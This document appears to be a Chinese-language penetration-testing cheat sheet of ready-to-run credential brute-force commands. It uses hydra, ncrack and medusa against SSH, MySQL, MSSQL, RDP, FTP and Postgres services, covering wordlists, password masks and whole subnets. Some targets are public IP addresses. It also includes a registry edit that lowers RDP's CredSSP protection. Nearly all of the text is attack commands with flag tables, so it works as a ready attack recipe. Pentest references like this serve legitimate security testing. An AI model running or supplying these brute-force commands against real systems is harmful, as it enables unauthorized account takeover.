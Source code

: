 ## hydra

**ssh**

sudo hydra -l root -P wordlist.TXT ssh：//192.168.136.142

**mysql**

```sh
-l <user_string>
-L <user_file>
-p <password_string>
-P <password_file>

# 爆破mysql
hydra -l root -P ./password.txt -t 1 -e n -f -v 192.168.43.17 mysql -w 1
hydra -l root -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql
hydra -L ./user.txt -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql
# mssql
hydra -l sa -P password.txt -f mssql://39.99.149.148:1433/
hydra -L usernames.txt –P ./password.txt <target-ip> mssql

# 爆破ssh
hydra -l serlon -P pass.txt 192.168.0.227 ssh     # 知道用户名不知道密码
hydra -l jan -P /opt/rockyou.txt ssh://10.10.100.180 # 知道用户名不知道密码
hydra -L userlist.txt -p 123456 192.168.0.227 ssh # 知道密码不知道用户名
hydra -l admin -p password 192.168.0.0/24 ssh     # 知道用户名和密码但不知道ip
hydra -C default.txt 192.168.0.227                # 知道一组成对的用户名和密码来撞库
hydra -L logins.txt -P pws.txt -M target.txt ssh  # 都不知道
hydra -l wenber -V -x 3:3:1 rdp://127.0.0.1:3389
## -x MIN:MAX:CHARSET  3 到 3 个字符, 1为数字
### 'a' for lowercase letters, 'A' for uppercase letters, '1' for numbers, and for all others, just add their real representation.
### -x 3:5:a  generate passwords from length 3 to 5 with all lowercase letters
### -x 5:8:A1 generate passwords from length 5 to 8 with uppercase and numbers
### -x 1:3:/  generate passwords from length 1 to 3 containing only slashes
### -x 5:5:/%,.-  generate passwords with length 5 which consists only of /%,.-

```

| param   | Description                                                                     |
| ------- | ------------------------------------------------------------------------------- |
| -f      | exit after the first found login/password pair (per host if -M)                 |
| -F      | exit after the first found login/password pair for any host (for usage with -M) |
| -C FILE | colon separated "login:pass" format, instead of -L/-P options                   |
| -e nsr  | "n" for null password, additional checks,                                       |
|         | "s" try login as pass                                                           |
|         | "r" try the reverse login as pass                                               |

# rdp

远程桌面 要求的函数不受支持

```
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\CredSSP\Parameters /t reg_dword /v AllowEncryptionOracle /d 2
```

## rdp/hydra

```sh
hydra rdp://192.168.1.1:3389 -l admin -p 123456 -V -F
hydra -t 1 -V -f -l administrator -P rockyou.txt rdp://192.168.1.1

hydra -L user.txt -P pwd.txt 172.22.9.26 rdp -F -vV -e ns
hydra 192.168.50.210 rdp -l admin -p 123456 -V -F
hydra 192.168.31.22 rdp -L /usr/share/wordlists/dirbuster/password2.txt -P /usr/share/wordlists/dirbuster/password1.txt -V -F
```

## rdp/御剑 RDP 爆破工具/超级弱口令检查工具/fscan/

## rdp/ncrack 3389 rdp 爆破

```sh
ncrack -p 3389 -v -user admin -pass 123456 192.168.52.0/24
ncrack -p 3389 -v -user admin -P /usr/share/wordlists/rockyou.txt 192.95.xx.xx
ncrack -p 3389 -v -user admin -pass 123456Aa@@ 192.168.52.143

# -T<0-5> 越高越快
ncrack -p 3389 -v -user admin -P ./6位数字.txt 192.168.52.143 -T2 -oN output.txt
```

# medusa

```bash
# FTP
medusa -h 192.168.1.1 -u admin -P /top1000_password.txt -M ftp -e ns -t 10 -f -r 0 -O ./result_ftp.txt
medusa -M ftp -h 192.168.135.121 -u zc -p top1000.txt
# ssh
medusa -M ssh -h 192.168.75.141 -u flag4 -P top1000.txt -V
# mysql
medusa -h 192.168.137.133 -u root -P /wordlist.txt -M mysql
# postgres
medusa -H /ip.txt -u postgres -n 5432 -P /tmp/pass.txt -e ns -M postgres -T 255 -f -O /tmp/good.txt -r 0
```

| params      | desc                                        |
| ----------- | ------------------------------------------- |
| -n [NUM]    | 使用非默认端口                              |
| -e [n/s/ns] | N 意为空密码，S 意为密码与用户名相同        |
| -t [NUM]    | 设定线程数量                                |
| -f          | 在任何主机上找到第一个账号/密码后，停止破解 |
| -r [NUM]    | 重试间隔时间，默认为 3 秒                   |
| -V          | 显示版本                                    |
